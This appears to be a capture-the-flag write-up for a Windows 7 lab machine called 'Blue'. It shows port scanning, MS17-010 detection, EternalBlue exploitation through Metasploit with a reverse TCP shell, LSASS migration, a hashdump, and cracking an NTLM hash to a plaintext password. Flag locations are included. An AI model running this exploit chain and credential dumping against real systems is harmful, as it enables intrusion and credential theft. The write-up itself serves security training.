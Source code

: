 # Blue

## Machine info





## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 10.10.253.11 -oN port_scan.txt

Nmap scan report for 10.10.253.11
Host is up (0.036s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ms-wbt-server Microsoft Terminal Service
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2025-07-28T14:22:00
|_Not valid after:  2026-01-27T14:22:00
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2025-07-29T14:23:34+00:00
|_ssl-date: 2025-07-29T14:23:40+00:00; -2s from scanner time.
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49160/tcp open  msrpc         Microsoft Windows RPC
Device type: general purpose
Running: Microsoft Windows 2008|7|Vista|8.1
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista cpe:/o:microsoft:windows_8.1
OS details: Microsoft Windows Vista SP2 or Windows 7 or Windows Server 2008 R2 or Windows 8.1
Network Distance: 2 hops
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-07-29T14:23:34
|_  start_date: 2025-07-29T14:21:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2025-07-29T09:23:34-05:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 59m57s, deviation: 2h14m09s, median: -2s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:18:ab:86:6d:ff (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```



## SMB vuln enumeration

```bash
nmap -p 445 --script vuln 10.10.253.11

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
```

The host is vulnerable to ms17-010 vulnerability called EternalBlue.



## EternalBlue with Metasploit

Start metasploit and search the modules for thid vulnerability.

```bash
service postgresql start && msfconsole

search ms17-010
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Use the first module which we found.

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Set the confs and run the exploit

```bash
set RHOSTS 10.10.253.11
set payload windows/x64/shell/reverse_tcp
exploit
```

The exploit was success!

Now we can upgrade our shell into meterpreter shell

```
session -u 1
```

Then, that we have a meterpreter session go to PrivEsc part



## PrivEsc

We are already NT AUTHORITY/SYSTEM but we can migrate our process to obtain all rights.

```bash
ps
migrate LSASS_PID
```

Now we can use the HASHDUMP module of meterpreter to dump all hash in the machine.

```
hashdump

# output 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Copy the jon row into a file and try to crack it with John the ripper.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=NT

# output
alqfna22         (Jon)  
```



## Flags

Flag1? _This flag can be found at the system root._&#x20;

```powershell
cd C:\
more flag1.txt
```



Flag2? _This flag can be found at the location where passwords are stored within Windows._

```powershell
cd C:\Windows\System32\config
more flag2.txt
```



flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._&#x20;

```powershell
cd C:\Users\Jon\Documents
more flag3.txt
```
